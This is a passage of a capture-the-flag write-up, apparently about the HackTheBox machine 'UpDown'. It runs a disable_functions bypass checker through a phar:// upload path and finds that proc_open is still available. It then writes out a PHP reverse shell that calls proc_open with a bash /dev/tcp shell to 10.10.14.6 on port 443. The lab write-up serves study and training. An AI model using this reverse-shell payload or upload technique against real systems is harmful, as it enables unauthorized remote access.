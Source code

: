     oxdf@hacky$ python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/5e31601b65f0062e32966f2f8e94fbb0/info.0xdf/info


                                    ,---,     
                                      .'  .' `\   
                                      ,---.'     \  
                                      |   |  .`\  | 
                                      :   : |  '  | 
                                      |   ' '  ;  : 
                                      '   | ;  .  | 
                                      |   | :  |  ' 
                                      '   : | /  ;  
                                      |   | '` ,/   
                                      ;   :  .'     
                                      |   ,.'       
                                      '---'         


                            authors: __c3rb3ru5__, $_SpyD3r_$


    Please add the following functions in your disable_functions option: 
    proc_open
    If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket



#### proc_open

The [PHP docs](https://www.php.net/manual/en/function.proc-open.php) for
`proc_open` describe it as:

> similar to [popen()](https://www.php.net/manual/en/function.popen.php)
> but provides a much greater degree of control over the program
> execution.

Some Goolging for "proc_open reverse shell" leads me to [this
repo](https://gist.github.com/noobpk/33e4318c7533f32d6a7ce096bc0457b7#file-reverse-shell-php-L62),
where `proc_open` is called on line 69:

![](/img/image-20230117164456448.png)

I'll need to set `$shell` and `$descriptospec`. `$pipes` is not
necessary since I'm just going to spawn a reverse shell, not try to read
/ write out of the process from PHP.

My reverse shell looks like, using a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) as the payload:



    <?php
            $descspec = array(
                    0 => array("pipe", "r"),
                    1 => array("pipe", "w"),
                    2 => array("pipe", "w")
            );
            $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'";
            $proc = proc_open($cmd, $descspec, $pipes);
